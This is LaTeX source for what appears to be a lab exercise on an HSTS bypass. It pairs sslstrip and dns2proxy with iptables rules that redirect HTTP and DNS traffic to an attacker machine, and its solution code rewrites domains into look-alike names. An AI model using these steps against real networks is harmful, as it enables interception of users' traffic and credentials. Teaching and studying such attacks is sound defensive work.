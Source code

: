 \documentclass[final]{article}
\begin{document}
\begin{enumerate}
\begin{figure}[h]
    \caption{Diagram of the HSTS bypass attack}
    \label{hsts_bypass}
  \end{figure}
  \item The DNS request passes through dns2proxy and it is manipulated in order to be solved by the DNS server
  \item The legit response is received by dns2proxy, altered again and finally returned to the user
  \item The user navigates to the webpage with a slightly different domain using HTTP protocol
\end{enumerate}

\noindent To correctly mount this attack, you have to follow this procedure:
\begin{itemize}
  \item Mount a MitM attack
  \item Implement the missing code in \texttt{sslstrip/URLMonitor.py} and execute it \texttt{./sslstrip.py -l <sslstrip\_port>}
  \item Using iptables, create a specific rule to redirect the traffic from the port 80 to the port where sslstrip is running\\
  \texttt{sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <sslstrip\_port>}
  \item Implement the missing code in \texttt{dns2proxy.py} and execute it \texttt{./dns2proxy.py}
  \item Create a specific rule to redirect all the traffic in the attacker virtual machine changing the destination ip.\\
  \texttt{sudo iptables -t nat -A PREROUTING -p udp --dport 53 -i enp0s8 -j DNAT --to <attacker\_ip>}
  \item Analyze the behaviour using Wireshark, being sure that all this trick has being working properly
\end{itemize}


\subsubsection{Countermeasures}
Unfortunately, there is no default technique to prevent this type of attack. The user must always check the correctness of the URL in the address bar.

\subsubsection{Solution of the exercise
}
\textbf{Missing code in \texttt{sslstrip/URLMonitor.py}}
\lstset{language=Python}
\begin{lstlisting}
  if host[:4] == "www.":
      fake_domain = "w" + host
  else:
      fake_domain = "web" + host

\end{lstlisting}

\noindent\textbf{Missing code in \texttt{dns2proxy.py}}
\begin{lstlisting}
  if host[:5] == 'wwww.':
      real_domain = host[1:]
  elif host[:3] == 'web':
      real_domain = host[3:]

\end{lstlisting}

\FloatBarrier


\end{document}
